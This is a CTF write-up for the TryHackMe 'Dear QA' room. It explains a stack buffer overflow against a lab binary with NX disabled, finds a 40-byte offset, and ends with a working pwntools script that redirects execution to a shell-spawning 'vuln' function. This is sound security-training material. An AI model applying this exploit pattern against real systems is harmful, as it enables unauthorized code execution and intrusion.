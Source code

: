 # Dear QA - TryHackMe CTF Writeup

CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

<p align="center"> <img src="assets/Untitled.png"> </p>

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

<p align="center"> <img src="assets/Untitled%201.png"> </p>

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

<p align="center"> <img src="assets/Untitled%202.png"> </p>

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

<p align="center"> <img src="assets/Untitled%203.png"> </p>

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

<p align="center"> <img src="assets/Untitled%204.png"> </p>

<p align="center"> <img src="assets/Untitled%205.png"> </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```